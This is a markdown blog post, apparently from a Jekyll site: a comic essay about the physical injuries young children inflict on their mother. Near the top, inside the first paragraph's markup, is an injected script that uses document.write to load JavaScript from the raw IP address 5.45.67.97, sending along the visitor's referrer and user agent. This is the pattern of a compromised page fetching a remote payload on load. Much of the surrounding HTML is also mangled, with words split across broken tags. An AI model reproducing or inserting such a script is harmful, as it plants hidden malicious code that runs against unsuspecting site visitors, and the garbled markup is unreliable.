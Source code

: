 ```yaml
---
layout: post
title: 'The Pain Of Motherhood'
date: 04-Jul-2013
categories: tbd
---
```


# The Pain Of Motherhood

## 4th July 2013



 

<img class="photo-horiz" src="/images/2013/06/article_blocks-2.jpg" />

 

<span lang="EN-AU">**<span><span ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  'Times New Roman',   serif; font-size: medium;">This post was originally published in Practical Parenting Magazine, March 2013 (and as I post it, I am nursing the tender rib I injured reading the baby a bedtime story. Fa</span></span>**</span><span lang="EN-AU"><span **<span mily life! Y</span>**</span></span><span lang="EN-AU"><span **<span es, it</span>**</span></span><span lang="EN-AU"><span **<span  is a wondrous blessing. But it is also a fucking health hazard.)</span>**</span></span><span  </span>





<span lang="EN-AU"><span Last year sometime, during the lengthy, stinky process of toile</span></span><span lang="EN-AU"><span t tra</span></span><span lang="EN-AU"><span ining my son, I was quietly washing the dishes and thinking about blueberry cheesecake when a sudden screaming battle erupted in the bathroom.  It turned out that three year old T-Bone had been struck with a sudden desire to use the toilet, and found it occupied by his five-year-old sister Peanut. He was new to bathroom </span></span><span lang="EN-AU"><span etiquette, </span></span><span lang="EN-AU"><span and his solution to the problem was to push Peanut off her perch, mid-stream. Sibling war erupted, and in the heat of battle one, or both of them, pissed on the floor, which is when I ran in, slipped on the puddle and broke my toe.  That’s motherhood in a nutshell right there. Half drama, half comedy, and you can forget about dignity. You left that back in the birthing suite.  </span></span><span  </span>





<span lang="EN-AU"><span I remembered this incident recently now that my toddler has taken to slapping me in the face when I read the wrong book/get the wrong cup/mortally offend her in some other inexplicable baby way. And something has occurred to me. W</span></span><span lang="EN-AU"><span e all know that becoming a parent is an emotional journey.   Whole forests have been sacrificed to furnish the books that explain in what ways you will be emotionally changed and even scarred by motherhood. This is true: anxiety, rage, all of that angsty stuff comes with the territory.  But mainly, motherhood brings incredible joy and wonder and transformative, powerful love. Yes! Hooray for motherhood!</span></span><span  </span>





<span lang="EN-AU"><span And yet… there is a dark side. Along with the emotional pain, your children will inflict a lot of actual bodily harm upon you too.  There is, of course, the straight-up agony that comes with pregnancy and birth. Heartburn. Sciatica. Caesarean recovery. Blistered nipples. Torn perineums. But also, there are many mundane, routine ways for your kids to beat you up, from pulling your hair to kicking you in the genitals (a common and terrible experience for dads, I’m told.) </span></span>





<span lang="EN-AU"><span  </span></span><span For instance, T-Bone gave once me a black eye with a chicken drumstick.  I’ve also had what is sometimes called ‘toddlers wrist’ caused by a chubby two-year-old Peanut experiencing separation anxiety. She was only happy when carried, for so far and so long that I had to wear a kind of medical arm-Spanx for the duration. Pudding, now 18 months old, ended our breastfeeding relationship when she repeatedly bit me on the nipple. (The pain was bad, but the anticipation was worse.) Currently she’s obsessed with reading, so she hits me across the head with a board book (an underrated weapon with very pointy edges) whenever I stop, regardless of how much I explain that I must, at some point, chop some vegetables and hang washing or else we will be living in squalor, reading Ten Little Fingers by candlelight while cockroaches nibble our filthy toenails. But Pudding doesn’t care about my reasons. Babies don’t negotiate. They move straight to physical assault.</span><span  </span>





<span lang="EN-AU"><span It says something about how absolutely bewitching children are, how much unconditional adoration the heart can have, that we endure treatment  that would have us calling the police should another adult  inflict it. In short, it’s really good that babies are so damn adorable. Otherwise, they would all be arrested. </span></span>



<a href="http://www.facebook.com/sharer.php?u=&amp;linkname=The%20Pain%20Of%20Motherhood"><img class="photo-horiz" src="http://shongjog.files.wordpress.com/2008/04/share-on-facebook.gif?" />
